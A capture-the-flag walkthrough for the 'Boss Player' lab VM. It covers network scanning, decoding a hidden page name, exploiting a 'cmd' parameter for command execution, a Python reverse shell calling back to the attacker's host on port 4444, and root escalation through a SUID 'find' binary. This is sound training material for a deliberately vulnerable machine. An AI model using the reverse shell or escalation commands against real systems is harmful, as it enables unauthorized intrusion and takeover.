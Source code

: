 # Boss Player CTF

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:12	(Unknown: locally administered)
192.168.56.100	08:00:27:16:f6:de	PCS Systemtechnik GmbH
192.168.56.123	08:00:27:de:8c:54	PCS Systemtechnik GmbH
```

let's scan the ip address `192.168.56.123`

### 2.Enumeration

```bash
root@kali:nmap -sT -sV -v -p- -oN nmap.out 192.168.56.123
Host is up (0.00060s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:DE:8C:54 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

check web page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/53d19546-781b-4327-ba96-1a53c7cd6d75)

check source page:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2d30e9b0-1ca1-4b34-bfe0-d91c54c69ae9)

let's decode it :

```bash
root@kali: echo -n 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d | base64 -d | base64 -d
workinginprogress.php
```

navigate to this new address : `http://192.168.56.123/workinginprogress.php`

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/216ba80e-f0db-4fe0-aee0-e121c1be5610)

in this page we need to fuzz for different paramteters to find the correct one, i use burp suit for this and afew common paramters:

and finally found the correct paramter `cmd` and `id` command that is executed on the system
```text
http://192.168.56.123/workinginprogress.php?cmd=id
```

### 3.Gaining Shell

Use a python reverse shell, url encode it and send to get the shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### 4.Privilege Escalation

Search for SUID binaries

```bash
$ find / -user root -perm /4000 2>/dev/null
find / -user root -perm /4000 2>/dev/null
/usr/bin/mount
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/grep
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/find
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

here it shows that `find` has SUID bit set, use `GTFobins` to find how to escalate it :


```bash
$ find . -exec /bin/sh -p \; -quit

id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

cd /root

cat root.txt
Y29uZ3JhdHVsYXRpb25zCg==
```

This is how you can get root on this machine :)














